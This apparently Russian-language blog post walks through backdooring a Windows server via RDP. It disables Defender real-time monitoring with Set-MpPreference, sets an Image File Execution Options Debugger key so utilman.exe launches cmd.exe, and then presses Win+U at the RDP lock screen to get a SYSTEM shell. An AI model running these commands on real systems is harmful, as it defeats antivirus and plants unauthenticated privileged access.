 Привет! Сегодня хотелось бы рассмотреть стандартный, но необычный способ закрепления в системе через RDP, используя utilman.exe.

Представим следующую ситуацию: нам удалось получить reverse shell от целевого хоста. Безусловно, нам необходим backdoor для обеспечения постоянного доступа. В процессе сканирования мы узнаем об открытом 3389 порте. И как нам быть?

#### Немного теории

**RDP (Remote Desktop Protocol)** — это протокол для удаленного подключения к компьютеру или серверу с ОС Windows. С его помощью пользователи могут подключиться к удаленной машине и взаимодействовать с ее рабочим столом так, как если бы они физически находились перед ней. Чаще всего служба RDP используется для администрирования серверов, технической поддержки пользователей и удаленной работы.

**Utilman.exe** — это служебная программа Windows, которая служит для запуска специальных возможностей на экране блокировки (экранный диктор, экранная клавиатура, лупа и т. п.).

**Реестр Windows** - иерархически построенная база данных параметров и настроек в большинстве операционных систем Microsoft Windows. Реестр содержит информацию и настройки для аппаратного обеспечения, программного обеспечения, профилей пользователей, предустановки.

#### Информация о жертве

Сразу хотелось бы отметить, что целевой хост имеет следующую ОС:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/73e/a6c/462/73ea6c46241e7430c2540b567761b5f6.png)

Ключевой особенностью систем Windows Server является отключенное по умолчанию свойство "Tamper Protection", которое обеспечивает дополнительную защиту от изменений ключевых функций безопасности, включая ограничение изменений, которые не вносятся непосредственно через приложение. Другими словами, запрещает другим вмешиваться в важные функции безопасности системы (**запрещает изменение реестра**).

Если данная функция включена, то отключить ее можно разными методами, например: [https://theitbros.com/managing-windows-defender-using-powershell/#:~:text=Tamper%20Protection%20is%20enabled%20in,action%20at%20the%20UAC%20prompt](https://theitbros.com/managing-windows-defender-using-powershell/#:~:text=Tamper%20Protection%20is%20enabled%20in,action%20at%20the%20UAC%20prompt)

Также обязательным условием является выключенный параметр "Require computers to use Network Level Authentication to connect", который запрещает подключаться по RDP без конкретной УЗ. Иными словами, запрет на попадание на экран блокировки

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/1b1/2c0/24b/1b12c024be784042d0471dc2d2904d2d.png)

[Отключение функции](https://www.anyviewer.com/how-to/disable-network-level-authentication-2578.html) "Require computers to use Network Level Authentication to connect".

#### Практический пример

Допустим, мы каким-то чудом смоги получить обратную оболочку от имени Администратора хоста:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/d43/94c/ce7/d4394cce74f1d5815b19a35930309093.png)

Давайте проверим состояние активности антивируса (общий способ):

`sc query WinDefend`

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/1be/c79/ef2/1bec79ef25cb00d4df0d531661612f11.png)

Мы видим параметр "NOT_STOPABLE", который говорит нам о том, что защита в реальном времени активна. Выключаем её:

`powershell -command "Set-MpPreference -DisableRealtimeMonitoring $true"`

и опять проверим состояние антивируса:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/ec2/87d/6f0/ec287d6f04be12a4bdb16c6b1c48d434.png)

Также можно проверить другим способом:

`powershell -command "(Get-MpPreference).DisableRealtimeMonitoring"`

Если эта команда возвращает значение False, то реальный мониторинг активен. Если True, то выключен.

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/2f2/5ef/a1f/2f25efa1fb758e42da9dd934fbff78b0.png)

Действительно, он выключен. Теперь, когда приготовления закончены, перейдем к закреплению:

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/cd8/ec3/783/cd8ec3783d31a4deffe424cbf4f1bb96.png)

_Следующий шаг несет в себе возможную потерю backdoor'a._

Теперь вернем Defender в исходное состояние:

`powershell -command "Set-MpPreference -DisableRealtimeMonitoring $false"`

и сразу проверим:

`powershell -command "(Get-MpPreference).DisableRealtimeMonitoring"`

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/6e2/501/f6f/6e2501f6fcd18c1140dcb5f1577d646c.png)

Прекращаем взаимодействие с хостом через обратную оболочку и подключаемся через rdesktop:  
`rdesktop ip`

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/e1d/f3b/56e/e1df3b56ecacdcc34b60b7553392d5b0.png)

При первом подключении принимаем сертификаты

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/c4e/7bb/924/c4e7bb9246a15e041c864c9accafebf3.png)

Теперь нам осталось нажать на значок справа внизу или комбинацию клавиш `Win+U`:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/d16/c07/cfa/d16c07cfa4b0cd69bef09f002dd1526d.png)

Успех! Теперь у нас есть backdoor от имени системы.

**Кстати, вы заметили, что мы повысили свои права от Администратора до системы?)**

#### Но почему это так работает?

Если кратко, то некоторые сервисы, службы и т.д. работают в системе с наивысшими правами. В нашем случае, utilman.exe. Изменив в реестре исполняемый файл на cmd.exe, система запускает его, опять же, с наивысшими правами (nt authority\ system)
